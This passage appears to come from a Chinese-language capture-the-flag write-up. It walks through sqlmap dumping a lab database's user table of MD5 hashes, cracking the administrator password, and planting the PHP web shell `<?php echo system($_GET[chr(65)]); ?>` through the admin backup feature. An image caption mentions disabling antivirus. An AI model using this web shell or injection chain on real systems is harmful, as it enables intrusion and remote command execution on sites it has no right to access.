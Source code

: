 ```
[20:50:10] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/ggj4833p4wxqqyeq.instance.penguin.0ops.sjtu.cn'
[20:50:10] [WARNING] your sqlmap version is outdated

[*] ending @ 20:50:10 /2025-04-02/
```

不是哥们真有啊

Step 4: 


一开始想直接`--os-shell`但是没有成功，后面想到再`--dump`一遍

```
[20:54:42] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N]

[20:54:45] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[20:54:45] [INFO] starting 12 processes
[20:54:53] [WARNING] no clear password(s) found
Database: mybook
Table: user
[5 entries]
+------------+----------------------------------+--------+--------+---------+----------+---------------------+
| id         | pwd                              | class  | name   | admin   | status   | last_login_time     |
+------------+----------------------------------+--------+--------+---------+----------+---------------------+
| 10000      | ade1206be6ed8f333523b9f212dcacb2 | PHP1班 | 李狗蛋 | 0       | 1        | 2025-04-02 12:37:48 |
| 10010      | 122216df50e346f876165689692c56b2 | PHP2班 | 王小明 | 0       | 1        | 2018-10-16 15:36:04 |
| 18888      | 7ad1bd006316d446d07dfa34780d4c30 | PHP3班 | 王五   | 0       | 1        | 2025-03-27 14:44:31 |
| 88888      | 9c3848fd45c43eab590da076ceebdc4c | PHP2班 | 赵六   | 0       | 0        | 2018-10-18 10:11:31 |
| 1145141920 | 9cfbe247708a79cd184d832de35504d6 | System | 管理员 | 1       | 1        | 2018-10-17 11:21:54 |
+------------+----------------------------------+--------+--------+---------+----------+---------------------+
```

发现多了一条记录，再去[cmd5.com](https://cmd5.com/default.aspx)得到`1145141920`的密码为`adMin1`

现在拿到了管理员权限

Step 5:

管理员可以备份文件，等于有一个任意文件写，所以把一句话木马写到数据库里（修改作品简介为`<?php echo system($_GET[chr(65)]); ?>` p.s. 这里要注意不能有引号会被转义），让管理员备份成`.php`文件

![Step 5.1: 关闭火绒重复第五步](huorong-1.png)
